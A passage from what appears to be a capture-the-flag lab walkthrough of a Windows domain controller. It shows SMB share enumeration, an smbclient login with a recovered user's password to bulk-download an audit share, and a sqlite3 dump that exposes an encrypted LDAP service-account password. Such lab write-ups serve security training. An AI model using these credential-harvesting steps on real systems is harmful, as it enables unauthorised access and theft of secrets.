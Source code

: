 ```
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share
```
	- He has read privileges
- We access the share and grab all files:
	```bash
smbclient -U 's.smith' //10.10.10.182/Audit$ --password='sT333ve2'
smb: \> prompt OFF
smb: \> recurse ON
smb: \> mget *

---OUTPUT-MAIN-DIR---
  .                                   D        0  Wed Jan 29 13:01:26 2020
  ..                                  D        0  Wed Jan 29 13:01:26 2020
  CascAudit.exe                      An    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                     An    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86                                 D        0  Sun Jan 26 17:25:27 2020

                6553343 blocks of size 4096. 1617919 blocks available

```
- We read Audit.db with sqlite3 command:
	```bash
sqlite3 Audit.db .dump

---RELEVANT-OUTPUT---
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE IF NOT EXISTS "Ldap" (
        "Id"    INTEGER PRIMARY KEY AUTOINCREMENT,
        "uname" TEXT,
        "pwd"   TEXT,
        "domain"        TEXT
);
INSERT INTO Ldap VALUES(1,'ArkSvc','BQO5l5Kj9MdErXx6Q6AGOw==','cascade.local');
CREATE TABLE IF NOT EXISTS "Misc" (
        "Id"    INTEGER PRIMARY KEY AUTOINCREMENT,
        "Ext1"  TEXT,
        "Ext2"  TEXT
);
CREATE TABLE IF NOT EXISTS "DeletedUserAudit" (
        "Id"    INTEGER PRIMARY KEY AUTOINCREMENT,
        "Username"      TEXT,
        "Name"  TEXT,
        "DistinguishedName"     TEXT
);
INSERT INTO DeletedUserAudit VALUES(6,'test',replace('Test\nDEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d','\n',char(10)),'CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local');
INSERT INTO DeletedUserAudit VALUES(7,'deleted',replace('deleted guy\nDEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef','\n',char(10)),'CN=deleted guy\0ADEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef,CN=Deleted Objects,DC=cascade,DC=local');
```